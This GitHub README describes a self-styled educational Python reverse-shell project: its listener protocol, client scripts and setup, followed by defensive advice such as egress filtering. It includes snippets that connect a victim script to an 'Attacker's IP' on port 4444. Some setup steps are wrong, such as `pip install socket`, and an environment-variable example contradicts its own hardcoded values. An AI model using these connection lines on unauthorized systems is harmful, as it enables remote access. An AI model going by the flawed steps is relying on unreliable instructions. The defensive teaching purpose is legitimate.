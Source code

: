 <!-- Badges (replace with real links if desired) -->

[![License: MIT](https://img.shields.io/badge/License-MIT-blue.svg)](#license)
[![Language: Python](https://img.shields.io/badge/Language-Python-green.svg)](#project-structure)
[![Status: Educational](https://img.shields.io/badge/Status-Educational-orange.svg)](#abstract)

# 🐍 Webixly Reverse Shell — Educational Cybersecurity Project

**Author:** Aymen (Webixly)
**Repository:** Webixly-Reverce
**License:** MIT (see `LICENSE`)

---

## 📚 Table of Contents

1. [Abstract](#abstract)
2. [Overview](#overview)
3. [Project Structure](#project-structure)
4. [Design & Implementation](#design--implementation)
5. [Configuration (CHANGE IP)](#configuration-change-ip)
6. [Usage (Lab / Controlled Environment Only)](#usage-lab--controlled-environment-only)
7. [Defensive Guidance](#defensive-guidance)
8. [Academic & Ethical Considerations](#academic--ethical-considerations)
9. [Contribution & Citation](#contribution--citation)
10. [License](#license)
11. [Contact](#contact)

---

## Abstract

This repository contains a safe, educational simulation of the *reverse shell* concept intended for academic use and cybersecurity instruction. The implementation demonstrates basic client–server network mechanics while intentionally limiting functionality to a small set of predefined, non-destructive commands. The objective is to help students and researchers understand reverse-connection patterns and to illustrate defensive practices to mitigate their misuse.

> ⚠️ **Warning:** This project is for authorized educational use only. Do **not** run or deploy these examples against systems or networks for which you do not have explicit permission. Unauthorized use is illegal and unethical.

---

## Overview

A *reverse shell* is a technique in which a target host initiates an outbound connection to an external listener, enabling command exchange over that channel. While used legitimately in penetration testing and red-team exercises, reverse shells are also abused by attackers. This repository models the connection pattern safely — the server executes only a whitelist of Python handlers (no arbitrary OS shell commands).

---

## Project Structure

```
.
├── LICENSE
├── README.md
├── listner.py             # Server-side command dispatcher (listener)
├── windows_reverce.py     # Example client for Windows (simulated)
├── linux_reverce.py       # Example client for Linux (simulated)

```

> 🔧 Adjust filenames above to match your repository if they differ.

---

## Design & Implementation

### Server (listener / `listner.py`)

* Listens for incoming TCP connections on a configurable address and port.
* Accepts JSON-formatted requests such as:

```json
{"token": "<auth-token>", "cmd": "time", "args": {}}
```

* Validates an authentication token (optional but recommended).
* Dispatches only to a predefined, safe set of handlers (e.g., `hello`, `time`, `sysinfo`).
* Uses newline-terminated JSON for message framing to avoid partial-read ambiguities.
* Logs events using a structured logger (recommended).

### Client (`windows_reverce.py`, `linux_reverce.py`)

* Establishes an outbound TCP connection to the configured listener.
* Sends framed JSON requests and reads framed JSON responses.
* Intended exclusively for demonstration in a controlled lab environment.

### Security Decisions

* **No arbitrary shell execution**: prevents the repository from becoming a fully functional remote shell.
* **Message framing & size checks**: prevent partial-read issues and limit resource consumption.
* **Optional TLS**: recommended for any use outside isolated labs (`ssl.wrap_socket` / `ssl.SSLContext`).
* **Authentication token**: recommended to prevent unauthorized access in multi-user networks.

---

## Configuration (CHANGE IP)

> 🔁 **Important:** Before running any client (victim) script, you **must** update the target listener IP address (`HOST`) and, if used, the `PORT`. Failure to set the correct listener IP will cause the client to attempt to connect to the wrong host.

Open the client script you intend to run (`windows_reverce.py`, `linux_reverce.py`) and locate the `HOST`/`PORT` variables near the top of the file. Example:

```python
# windows_reverce.py (example snippet)
s.connect(("192.168.1.100", 4444))  #<<== Attacker's IP and Port 
```

**Steps**

1. Find the `HOST` variable and replace the placeholder with your listener/server IP (e.g., `192.168.10.128`).
2. Ensure `PORT` matches the port configured in `listner.py`.
3. Save the file and transfer it only to your controlled lab machine (if testing across VMs).

> 🔒 Tip: For lab automation, you can use environment variables instead of hardcoding:

```python
HOST = '192.168.10.128' # Attacker's IP address
PORT = 4444 # Attacker's listening port
```

This allows running:

```bash
REVERSE_HOST=192.168.10.128 REVERSE_PORT=4444 python3 windows_reverce.py
```

---

## Usage (Lab / Controlled Environment Only)

1. Create an isolated test environment (local VMs, isolated VLAN, or a single host with loopback testing).
2. Start the listener (on the host where `listner.py` runs):

```bash
pip install socket
python3 listner.py
```

3. On the test client machine (after updating `HOST` to point to the listener):

```bash
pip install socket
python3 windows_reverce.py
# or
pip install socket
python3 linux_reverce.py
```

> 🧪 Always operate within an environment you control. Do not run these scripts on production systems or public networks.

---

## Defensive Guidance

System administrators, students, and researchers should adopt the following controls to reduce the risk of reverse-shell exploitation:

* **Egress filtering:** restrict outbound connections by default; allow only required destinations and ports.
* **Host hardening:** enforce least privilege, disable interpreters where unnecessary, and use application allowlisting.
* **Network monitoring:** detect anomalous outbound connections (to uncommon ports or foreign hosts).
* **Endpoint detection:** use EDR/NDR solutions to identify process behaviors consistent with reverse shells.
* **Code review:** audit third-party and internal code for unsafe socket or subprocess usage.

---

## Academic & Ethical Considerations

This repository is intended for coursework, labs, and research under authorized conditions. Any unauthorized testing, scanning, or exploitation of systems you do not own or have permission to test is illegal. If you discover a vulnerability during legitimate testing, follow established responsible disclosure procedures.

---

## Contribution & Citation

Contributions that enhance the educational value (improved documentation, safe lab exercises, additional safe handlers) are welcome via issues or pull requests. If you cite this repository in academic work, please reference:

> A. (Aymen, Webixly), *Webixly Reverse Shell — Educational Cybersecurity Project*, GitHub repository, [https://github.com/webixly/Webixly-reverce](https://github.com/webixly/Webixly-reverce), 2025.

---

## License

This project is offered under the **MIT License**. See the `LICENSE` file for full terms.

---

## Contact

**Aymen (Webixly)**
GitHub: [https://github.com/webixly](https://github.com/webixly)
Email: [webiixly@gmail.com](mailto:webiixly@gmail.com)
